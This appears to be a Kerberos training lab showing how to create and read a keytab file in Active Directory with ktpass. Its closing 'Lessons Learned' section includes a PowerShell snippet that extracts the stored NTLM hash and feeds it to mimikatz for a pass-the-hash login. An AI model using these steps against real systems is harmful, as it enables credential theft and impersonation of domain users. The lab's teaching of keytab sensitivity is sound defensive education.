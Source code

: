 # Kerberos 101 Labs

## Create a keytab and inspect it

In this lab you will create a Keytab file. We are not be able to use it for something as Windows does not use Keytab files. Linux machines use Keytab files to authenticate with a Windows Active Directory domain.

In the Linux world or non-Microsoft Kerberos world, Keytab files very similar to the Windows trust relationship. When creating a keytab file, the password hash is stored in the on the given account in the KDC's database as well as the Keytab file.

:ballot_box_with_check: Create a new account in Active Directory and a Keytab file that that account.

```powershell
$ou = New-ADOrganizationalUnit -Name KeyTabTests -PassThru
New-ADUser -Name User1 -Path $ou

ktpass /out c:\krb5.keytab /princ User1$@a.vm.net /mapuser User1 /crypto RC4-HMAC-NT /ptype KRB5_NT_PRINCIPAL /pass Somepass2 /target KerbDC2.a.vm.net
```

Even if we cannot use the Keytab file, it is quite interesting to look at it. We can read the Keytab file with `ktpass.exe`.

:ballot_box_with_check: Open the Keytab file suing the following command:

```powershell
ktpass.exe /in C:\krb5.keytab
```

The output looks like this:

```text
Existing keytab:

Keytab version: 0x502
keysize 49 User1$@a.vm.net ptype 1 (KRB5_NT_PRINCIPAL) vno 3 etype 0x17 (RC4-HMAC) keylength 16 (0x39adbe3fcd45600a31b9ee56122b4a87)

WARNING: No principal name specified.
```

:question: Do you see any critical information in the output?

:question: How careful / secure should Keytab files be treated?

<details><summary><h2>Lessons Learned</h2></summary>

:bulb: Kerberos Keytab files are the equivilant to a Windows trust relationship.

:bulb: Because of that, the Keytab file stores the generated password hash which makes it pretty sensitive.

:warning: If someone has access to the Keytab file, using the hash to act as the user the Keytab file is mapped to, it quite easy:

```powershell
$keytab = ktpass.exe /in C:\krb5.keytab 2>&1
$keytab = -join $keytab 

$keytab -match '\(0x(?<Hash>[a-z0-9]+)\)'
$Matches.Hash

C:\mimikatz\x64\mimikatz.exe "sekurlsa::pth /user:install /domain:a /ntlm:$($Matches.Hash) /run:powershell" exit
```

</details>
